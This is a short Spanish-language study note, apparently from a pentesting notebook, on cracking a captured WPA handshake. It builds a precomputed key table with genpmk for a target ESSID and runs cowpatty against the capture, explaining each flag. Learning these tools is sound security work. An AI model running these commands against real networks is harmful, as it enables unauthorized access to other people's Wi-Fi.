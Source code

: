 En este caso usaremos 2 herramientas para realizar un ataque de fuerza bruta con una rainbow table, [[GenPMK]] para la creación de claves preceptuadas y [[Cowpatty]] para el ataque de fuerza bruta.

	genpmk -f dicc.txt -d diccPreGen.genpmk -s "Essid-victima"
Creamos el diccionario pre-computado.
-f *Indicamos el diccionario*
-d *El file output* Cowpatty solo acepta archivos .genpmk
-s *El essid del AC victima*

	cowpatty -d diccPreGen.genpmk -r CapturaDeAuth-01.cap -s "Router-victima"
Realizamos el ataque
-d *Diccionario pre-computado*
-r *Captura del handshake*
